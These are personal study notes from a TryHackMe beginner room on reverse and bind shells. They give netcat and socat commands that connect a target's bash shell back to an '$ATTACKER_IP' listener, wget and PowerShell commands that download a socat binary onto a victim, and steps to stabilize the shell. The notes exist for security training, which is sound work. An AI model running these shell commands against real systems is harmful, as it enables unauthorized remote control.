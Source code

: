 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-27

## What the Shell?

### What Is a Shell?

Terminology:

* REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
* BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

### Tools

Typical tools for creating reverse shells or connecting to bind shells:

* `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
* `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
* `auxilary/multi/handler` is the netcat/socat equivalent in Metasploit. It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
* `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

* [Using Metasploit](../notes/metasploit.md)

### Types of Shells

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

### Netcat

While binding to well-known ports requires the use of sudo, it's also less likely to get flagged/blocked by intermediate firewalls.

### Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It's generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn't redirect control sequences, so Ctrl+C will still kill the connection).

It's also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you'd transfer this binary is by first spinning up a simply webserver in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

* UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
* WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows	emp\socat.exe`

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Quick-n-Dirty Python Web Server](../notes/quick-n-dirty-python-web-server.md)

### Socat

Socat: Just an anything-to-anything connector!

```bash
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

This gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it's perfectly acceptable to kick off a socat process from inside a netcat process!
